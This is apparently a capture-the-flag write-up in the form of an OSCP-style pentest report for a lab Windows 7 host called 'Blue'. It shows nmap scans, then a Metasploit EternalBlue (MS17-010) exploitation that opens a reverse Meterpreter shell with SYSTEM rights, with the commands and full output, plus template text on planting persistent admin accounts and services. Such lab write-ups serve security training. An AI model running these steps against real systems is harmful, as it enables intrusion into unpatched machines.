


# Pentesting Report - Blue

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.40

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

We do an initial nmap scan and we find the following ports open on the machine:

```
$ sudo nmap -sV -sC -oA nmap/blue-initial 10.10.10.40              
[sudo] password for user: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 03:00 CET
Nmap scan report for 10.10.10.40
Host is up (0.023s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6m14s, deviation: 1s, median: 6m13s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-03-09T02:07:41+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-09T02:07:39
|_  start_date: 2021-03-09T02:01:53

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.59 seconds
```

We see we have a Windows 7 machine and we do a scan with the vulnerability checking scripts enabled:

```
$ sudo nmap -sV -sC --script vuln -oA nmap/blue-vuln 10.10.10.40                                                                                                              255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 03:03 CET
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Stats: 0:01:52 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.82% done; ETC: 03:05 (0:00:00 remaining)
Nmap scan report for 10.10.10.40
Host is up (0.026s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.49 seconds

```

On the box is the Eternal Blue vulnerability which we can exploit to gain foothold.
We start metasploit and search for the Eternal Blue expoit:

```
$ sudo msfdb run                                                                         
[sudo] password for user:                                                                  
[+] Starting database
...

       =[ metasploit v6.0.31-dev                          ]
+ -- --=[ 2101 exploits - 1131 auxiliary - 357 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try 
globally setting it with setg RHOSTS x.x.x.x

msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 2
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

We set up the parameters for the exploit:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.171    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.10.40
rhosts => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
lhost => tun0

```

Then we execute the exploit:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.14:4444 
msf6 exploit(windows/smb/ms17_010_eternalblue) > [*] 10.10.10.40:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.40:49158) at 2021-03-09 03:11:10 +0100
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > shell
Process 992 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

With the system authority we have on the box we can easely find the user and root flag and dump the contents:





**Vulnerability Fix:**

Remove or migrate the Windows 7 box, alternative: place in a separate VLAN and protect with firewall / IPS.

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
